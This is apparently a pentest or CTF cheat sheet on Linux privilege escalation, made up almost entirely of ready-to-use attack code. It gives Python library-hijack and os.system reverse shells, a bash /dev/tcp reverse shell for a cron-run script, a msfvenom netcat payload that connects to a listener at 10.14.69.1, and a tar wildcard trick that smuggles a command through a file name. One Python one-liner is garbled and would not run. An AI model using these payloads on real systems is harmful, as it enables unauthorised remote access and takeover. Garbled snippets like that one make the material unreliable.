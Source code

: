 ## Python Library Hijack

- base64

````python
#!/usr/bin/python3  
from os import dup2  
from subprocess import run  
import socket  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("LOCAL_IP",1234))   
dup2(s.fileno(),0)   
dup2(s.fileno(),1)   
dup2(s.fileno(),2)   
run(["/bin/bash","-i"])
````

---

- OS

```python
import os

def choice(a):

	os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_ATTCK PORT>/tmp/f")
```

---

- Edit an script running in a crontab:

```bash
bash -i >& /dev/tcp/IP_ATTCK/PORT 0>&1
```

---

- How to stabilise a shell:
````shell
python -c "import pty; pty.spawn('/bin/bash')" 
python3 -c "import pty; pty.spawn('/bin/bash')" 
````

---

- Python

```python
...#whatever it does before
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,s.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]));'

# other option
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_HOST PORT >/tmp/f" > twasBrillig.sh
```

---

- If you see that running `sudo -l` someone is using a wildcard like:

![](./img/Pasted%20image%2020240210151540.png)

- Run the following:

```shell
msfvenom -p cmd/unix/reverse_netcat lhost=IP_ATTCK lport=PORT R
```

- Which gives us the exploit:

```shell
mkfifo /tmp/fmkltf; nc 10.14.69.1 1234 0</tmp/fmkltf | /bin/sh >/tmp/fmkltf 2>&1; rm /tmp/fmkltf
```

- Steps:
	1. Copy the reverse shell on the remote host
	2. Run the action when the checkpoint is reached: `echo "" > "--checkpoint-action=exec=sh shell.sh"`
	3. Show progress message every record: `echo "" > --checkpoint=1`
	4. Set up a listener on your local machine

---